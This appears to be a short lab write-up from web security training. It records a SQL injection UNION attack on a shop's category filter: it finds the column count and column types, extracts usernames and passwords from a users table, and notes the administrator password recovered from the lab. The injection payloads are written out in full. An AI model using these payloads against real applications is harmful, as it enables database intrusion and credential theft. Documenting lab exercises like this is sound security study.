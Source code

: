 



## Endgoal = perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 




## Burp
GET /filter?category=Accessories HTTP/2


## finding the number of column

`accessories ' union select null , null , null ... -- `


-> we found number of column = 2

## finding the data type of column

`accessories ' union select 'a' , null -- `
`accessories ' union select null , 'a' -- `


we found both column are of string data type


## retriving usename and password from users table

`accessories ' union select username , password from users -- `


## administrator password retrived
nzsri2qi0ah26ugnqmws



![[../../images/Pasted image 20231103000715.png]]
